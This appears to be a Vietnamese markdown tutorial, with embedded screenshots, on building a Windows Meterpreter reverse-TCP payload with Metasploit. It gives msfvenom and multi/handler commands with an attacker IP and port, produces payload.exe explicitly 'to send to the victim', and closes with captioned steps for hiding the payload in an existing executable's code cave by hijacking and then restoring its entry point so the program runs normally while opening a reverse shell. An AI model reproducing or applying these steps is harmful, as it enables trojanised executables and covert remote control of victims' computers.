






Để tạo payload bằng Metasploit (Metasploit Framework), bạn có thể sử dụng các module và lệnh được cung cấp trong Metasploit. Dưới đây là hướng dẫn cơ bản để tạo một payload sử dụng **Metasploit**:

### Bước 1: Cài đặt Metasploit Framework
Trước tiên, nếu bạn chưa cài đặt Metasploit, hãy làm theo các bước sau:

- Trên **Kali Linux** (hoặc các bản phân phối khác dựa trên Debian), bạn có thể cài đặt Metasploit bằng lệnh:
  ```bash
  sudo apt update
  sudo apt install metasploit-framework
  ```
- Trên **Ubuntu** : 
  ```bash
  sudo apt update
  ssudo snap install metasploit-framework
  ```

- Trên **Windows**, bạn có thể tải xuống bộ cài đặt Metasploit từ trang web chính thức của Metasploit: https://www.metasploit.com.

### Bước 2: Mở Metasploit
Mở terminal và chạy lệnh sau để khởi động Metasploit:
```bash
msfconsole
```

### Bước 3: Chọn và cấu hình Payload
Metasploit cung cấp rất nhiều payloads để chọn. Dưới đây là ví dụ về cách tạo một payload đơn giản.

1. **Chọn một payload**:
   Sử dụng lệnh `use` để chọn payload mong muốn. Ví dụ, nếu bạn muốn tạo một payload cho Windows, bạn có thể chọn một payload reverse TCP như sau:
   ```bash
   use windows/meterpreter/reverse_tcp
   ```

2. **Cấu hình các tùy chọn cho payload**:
   Sau khi chọn payload, bạn cần cấu hình các tùy chọn cần thiết. Bạn có thể kiểm tra các tùy chọn có sẵn bằng lệnh `show options`:
   ```bash
   show options
   ```

   Các tùy chọn cần thiết thường bao gồm:
   - **LHOST**: Địa chỉ IP của máy tấn công (máy sẽ nhận kết nối).
   - **LPORT**: Cổng mà payload sẽ sử dụng để kết nối.
   
   Ví dụ, bạn có thể cấu hình các tùy chọn như sau:
   ```bash
   set LHOST 172.21.224.1  # Địa chỉ IP của máy tấn công
   set LPORT 4444          # Cổng mà payload sẽ sử dụng
   ```

### Bước 4: Tạo Payload
Khi bạn đã cấu hình đầy đủ payload, bạn có thể tạo nó. Dưới đây là hai cách để tạo payload:

1. **Tạo payload dưới dạng một file để gửi cho nạn nhân**:
   Nếu bạn muốn tạo một payload và lưu nó vào một file để gửi cho nạn nhân (ví dụ như một file `.exe`), bạn có thể sử dụng lệnh `generate` hoặc `msfvenom`. Ví dụ:
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST= 172.21.224.1 LPORT=4444 -f exe > payload.exe
   ```

   Lệnh này sẽ tạo một file `payload.exe`, mà bạn có thể gửi cho nạn nhân.

2. **Tạo một payload và gửi trực tiếp qua network**:
   Bạn có thể sử dụng Metasploit để tạo và quản lý payload trực tiếp qua mạng mà không cần tạo file. Ví dụ, sau khi cấu hình payload, bạn có thể tạo kết nối thông qua lệnh `exploit`:
   ```bash
   exploit
   ```

### Bước 5: Chạy Listener (Listener) và chờ kết nối
Sau khi tạo payload và gửi nó tới nạn nhân (hoặc thử tấn công theo cách khác), bạn cần chạy listener để chờ kết nối từ payload. Ví dụ:
```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 172.21.224.1
set LPORT 4444
exploit
```

Khi nạn nhân chạy payload (tệp `.exe` mà bạn đã tạo), một kết nối sẽ được thiết lập giữa máy của bạn và máy của nạn nhân, và bạn sẽ có quyền truy cập vào máy nạn nhân qua **Meterpreter**.


**HEX view của payload \n**



**Chèn payload vào k gian trôgns của exe**



**sửa entry point Jmp đến điểm bắt đầu của payload** 



**Sử dụng Pushad và Pushfd đẻ lưu lại giá trị của các thanh ghi và flag**



**Sử dụng Popad và Popfd đẻ khôi phục trạng thái thanh ghi ban đầu** 

**Phải trả lại entrypoint ban đâu đẻ trương trình chạy bình thường**



**Khi người dùng run Payload này chẽ mở 1 reverse Shell đến máy của kẻ tấn công** 

